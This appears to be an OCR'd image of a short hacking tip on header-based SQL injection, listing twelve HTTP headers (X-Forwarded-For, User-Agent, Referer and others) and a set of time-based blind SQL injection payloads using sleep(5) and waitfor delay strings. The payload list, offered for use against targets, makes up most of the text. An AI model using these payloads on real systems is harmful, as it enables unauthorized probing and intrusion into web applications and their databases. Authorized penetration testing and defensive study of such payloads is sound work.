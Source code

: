 Can't find SQL injections?

You should try header based SQLi's 👇

🔴 What's that?
Vuln. that allows hackers to exploit SQL injections through HTTP headers being sent between the browser and server.

🟡 But where to find it?
Inject payloads inside of basic HTTP headers

🟢 What payloads do I use?
Use my favorite payloads:

If the injection works, the response will have a delay of 5 seconds!
 
INSIDE OF THESE HTTP HEADERS INJECT BELOW PAYLOADS:
X-Forwarded-For
User-agent
Referer
Accept
Accept-Charset
Content-Type
Connection
Content-Length
X-Client-Ip
X-Remote-Ip
X-Host
X-Forwarded-Host
 
USE THESE PAYLOADS:
sleep(5)#
1 or sleep(5)#
" or sleep(5)#
' or sleep(5)#
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--
